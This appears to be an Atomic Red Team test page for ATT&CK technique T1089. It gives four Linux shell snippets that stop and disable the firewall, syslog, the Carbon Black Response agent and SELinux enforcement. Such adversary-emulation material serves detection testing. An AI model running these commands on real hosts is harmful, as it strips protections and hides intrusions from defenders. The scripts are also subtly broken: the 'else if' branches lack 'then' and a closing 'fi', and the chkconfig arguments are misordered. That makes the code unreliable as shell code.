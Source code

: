 # T1089 - Disabling Security Tools Mitigation
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1089)
Ensure proper process, registry, and file permissions are in place to prevent adversaries from disabling or interfering with security services.


- [Atomic Test #1 - Disable iptables firewall](#atomic-test-1---disable-iptables-firewall)

- [Atomic Test #2 - Disable syslog](#atomic-test-2---disable-syslog)

- [Atomic Test #3 - Disable Cb Response](#atomic-test-3---disable-cb-response)

- [Atomic Test #4 - Disable SELinux](#atomic-test-4---disable-selinux)


<br/>

## Atomic Test #1 - Disable iptables firewall
Disables the iptables firewall

**Supported Platforms:** linux


#### Run it with `sh`!
```
if [ $(rpm -q --queryformat '%{VERSION}' centos-release) -eq "6" ];
then
  service iptables stop
  chkconfig off iptables
  service ip6tables stop
  chkconfig off ip6tables
else if [ $(rpm -q --queryformat '%{VERSION}' centos-release) -eq "7" ];
  systemctl stop firewalld
  systemctl disable firewalld
fi

```
<br/>
<br/>

## Atomic Test #2 - Disable syslog
Disables syslog collection

**Supported Platforms:** linux


#### Run it with `sh`!
```
if [ $(rpm -q --queryformat '%{VERSION}' centos-release) -eq "6" ];
then
  service rsyslog stop
  chkconfig off rsyslog
else if [ $(rpm -q --queryformat '%{VERSION}' centos-release) -eq "7" ];
  systemctl stop rsyslog
  systemctl disable rsyslog
fi

```
<br/>
<br/>

## Atomic Test #3 - Disable Cb Response
Disable the Cb Response service

**Supported Platforms:** linux


#### Run it with `sh`!
```
if [ $(rpm -q --queryformat '%{VERSION}' centos-release) -eq "6" ];
then
  service cbdaemon stop
  chkconfig off cbdaemon
else if [ $(rpm -q --queryformat '%{VERSION}' centos-release) -eq "7" ];
  systemctl stop cbdaemon
  systemctl disable cbdaemon
fi

```
<br/>
<br/>

## Atomic Test #4 - Disable SELinux
Disables SELinux enforcement

**Supported Platforms:** linux


#### Run it with `sh`!
```
setenforce 0

```
<br/>

